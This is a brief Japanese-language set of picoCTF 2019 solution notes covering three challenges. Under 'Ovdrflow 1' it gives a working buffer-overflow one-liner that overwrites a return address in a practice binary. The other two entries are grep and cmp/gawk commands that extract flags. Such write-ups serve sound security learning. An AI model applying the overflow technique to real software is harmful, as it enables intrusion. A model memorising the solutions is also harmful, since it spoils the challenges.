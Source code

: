 # picoCTF2019

### Ovdrflow 1
    戻りアドレスをprintfしてくれるので、それを書き換えればよい。<br>
    `python -c 'print "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" "\xe6\x85\x04\x08"' | ./vuln`

### First Grep: PartII
- 文字列検索の便利コマンド<br>
    - 中身まで表示 `find . -type f -print | xargs grep 'pico'`
    - ファイル名だけ表示 `grep "pico" -rl .`

### whats-the-difference
- ワンライナー系
    - 2つのファイルの差分を表示。後ろ側のファイルを文字として抽出
        `cmp -l kitters.jpg cattos.jpg | gawk '{printf "%08X %02x %c\n", $1, strtonum(0$2), strtonum(0$3)}' | rev | cut -c -1 > flag.txt`
    - ファイルから改行を削除
        `cat flag.txt | tr -d '\n'`
    - ちなみに、全部つなげてもいい。
        `cmp -l kitters.jpg cattos.jpg | gawk '{printf "%08X %02x %c\n", $1, strtonum(0$2), strtonum(0$3)}' | rev | cut -c -1 | tr -d '\n'`
    